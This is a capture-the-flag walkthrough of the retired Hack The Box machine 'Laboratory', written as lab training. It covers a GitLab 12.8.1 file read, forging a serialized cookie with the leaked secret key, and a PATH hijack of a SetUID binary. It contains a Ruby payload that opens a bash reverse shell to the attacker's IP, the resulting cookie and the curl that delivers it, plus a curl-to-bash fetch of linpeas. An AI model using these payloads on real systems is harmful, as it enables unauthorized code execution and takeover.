

# Laboratory

This is the write-up for the box Laboratory that got retired at the 17th April 2021.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.216    laboratory.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/laboratory.nmap 10.10.10.216
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-title: Did not follow redirect to https://laboratory.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service on port 80 forwards to _laboratory.htb_ on port 443.

## Checking HTTPS (Port 443)

The website on port 443 is a custom-developed company website that offers security and development services and the CEO _Dexter_ could be a potential username.

In the SSL certificate is another hostname _git.laboratory.htb_ that has to be put into our _/etc/hosts_ file.
On this hostname it hosts **GitLab**, a platform to develop and manage Git projects.



A user can be registered, but the email address has to contain _laboratory.htb_.
There is one project called _SecureWebsite_ which seems to be the code for the website and it has only one commit and no interesting files.

On the _/help_ page, it shows that this is **GitLab Community Edition version 12.8.1** from February 2020.
When searching for vulnerabilities, a [report on HackerOne](https://hackerone.com/reports/827052) describes how to read arbitrary files from the server.

Creating two projects:
```
New project --> Project name: Project_1 --> Create project
New project --> Project name: Project_2 --> Create project
```


Creating an issue on one of the projects with the following description:
```
Project_1 --> New issue --> Title: Test --> Description:
```
```

```
```
Submit issue
```

Moving issue to the second project:
```
Move issue --> Project_2
```

Now _/etc/passwd_ gets uploaded to the issue and we are able to read it.


This vulnerability can be used to get the secret key for GitLab as described in the article:
```

```
```
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21(...)
```

With this it is possible to build our own GitLab server and create a serialized object that will be sent to the box as a cookie to gain code execution.

### Code Execution on GitLab

Creating a **GitLab** server with a **Docker image**:
```
docker pull gitlab/gitlab-ce:12.8.1-ce.0
```

Starting the container:
```
docker run gitlab/gitlab-ce:12.8.1-ce.0
```

Getting a shell in the container:
```
docker exec -it 39c083d0f602 bash
```

Modifying GitLab key to the key from the box:
```
root@39c083d0f602:/# vim /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21(...)
```

Restarting GitLab:
```
root@39c083d0f602:/# gitlab-ctl restart
```

Starting an interactive **Ruby console** and creating a serialized object:
```
root@39c083d0f602:/# gitlab-rails console
```
```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
```
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEwLzkwMDEgMD4mMSdgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--9d53e2a8715f33ba1804384225416efd70cd7051
```

Sending the serialized object as a cookie to the target GitLab:
```
curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVj(...)"
```

After sending the payload, the listener on my IP and port 9001 starts a reverse shell as the user _git_.

## Privilege Escalation

In the root directory is a _.dockerenv_ folder, which means that this is a **Docker container**.

The [GitLab Rails Console Cheat Sheet](https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html) can be used to enumerate and change configurations in **GitLab**.

By changing our user to an admin user, it gets more permissions on GitLab:
```
irb(main)> u = User.find_by_username('NewUser')
irb(main)> u.admin = true
irb(main)> u.save!
```

On GitLab, we now can see another repository from _dexter_ called _SecureDocker_.
In this repository in the folder _dexter/.ssh_ is a private SSH key _id_rsa_ that can be used to login into the box:
```
ssh -i dexter.key dexter@10.10.10.216
```

### Privilege Escalation to root

To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

There is binary with the **SetUID bit** set on _/usr/local/bin/docker-security_ and the group _dexter_ can execute it.
```
ls -l /usr/local/bin/docker-security

-rwsr-xr-x 1 root dexter 16720 Aug 28  2020 /usr/local/bin/docker-security
```

Checking the library calls with `ltrace`:
```
ltrace /usr/local/bin/docker-security

setuid(0)
setgid(0)
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
(...)
```

It sets the user context to 0, which is root and then executes `chmod` from a relative path.
This means by adding a prioritised path to the **PATH environment** and creating our own _chmod_ executable there, it will be executed with root permissions.

Adding _/home/dexter_ at the beginning of the **PATH environment**:
```
export PATH=/home/dexter:$PATH
```

Creating a script in _/home/dexter_ called _chmod_ that executes `bash` and making it executable:
```
chmod +x chmod
```

After executing _/usr/local/bin/docker-security_, it will run _/home/dexter/chmod_ because that directory is in the beginning of the **PATH environment**.
That script will execute `bash` and start a shell as root!
